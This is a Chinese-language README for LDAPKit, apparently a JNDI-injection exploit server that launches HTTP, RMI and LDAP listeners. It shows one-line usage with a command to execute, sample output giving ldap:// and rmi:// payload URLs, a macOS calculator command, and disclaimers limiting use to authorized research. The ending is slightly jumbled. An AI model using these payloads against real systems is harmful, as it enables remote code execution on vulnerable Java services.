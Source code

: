 # LDAPKit

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/badge/Java-8-red)

**工具仅用于安全研究以及内部自查，禁止使用工具发起非法攻击，造成的后果使用者负责**

## 简介

自用的`LDAP`工具（无高级用法仅支持简单的漏洞复现）

无需自行编译`Java`文件和开启`HTTP`服务，一切自动

只要一行：`java -jar LDAPKit.jar [命令]`

例如：`java -jar LDAPKit.jar notepad.exe`

```text
    ___  ________   ________  ___  ___  __    ___  _________   
   |\  \|\   ___  \|\   ___ \|\  \|\  \|\  \ |\  \|\___   ___\ 
   \ \  \ \  \\ \  \ \  \_|\ \ \  \ \  \/  /|\ \  \|___ \  \_| 
 __ \ \  \ \  \\ \  \ \  \ \\ \ \  \ \   ___  \ \  \   \ \  \  
|\  \\_\  \ \  \\ \  \ \  \_\\ \ \  \ \  \\ \  \ \  \   \ \  \ 
\ \________\ \__\\ \__\ \_______\ \__\ \__\\ \__\ \__\   \ \__\
 \|________|\|__| \|__|\|_______|\|__|\|__| \|__|\|__|    \|__|
19:13:27 [INFO] [org.sec.ServerMain] start jndi kit
19:13:27 [INFO] [org.sec.ServerMain] cmd: calc.exe
19:13:27 [INFO] [org.sec.Http] start http server: 0.0.0.0:8000
19:13:27 [INFO] [org.sec.RMI] start rmi registry 0.0.0.0:1099
19:13:27 [INFO] [org.sec.Ldap] start ldap server: 0.0.0.0:1389
|--------------------------------------------------------|
|------Payload: ldap://127.0.0.1:1389/badClassName-------|
|------Payload: rmi://127.0.0.1:1099/badClassName-------|
|--------------------------------------------------------|
```

## 免责申明

**未经授权许可使用`LDAPKit`攻击目标是非法的**

**本程序应仅用于授权的安全测试与研究目的**


mac 执行运行计算机命令, 要使用: 
                cmd = "open /System/Applications/Calculator.app\n";




**本程序应仅用于授权的安全测试与研究目的**计算机
**本程序应仅用于授权的安全测试与研究目的**
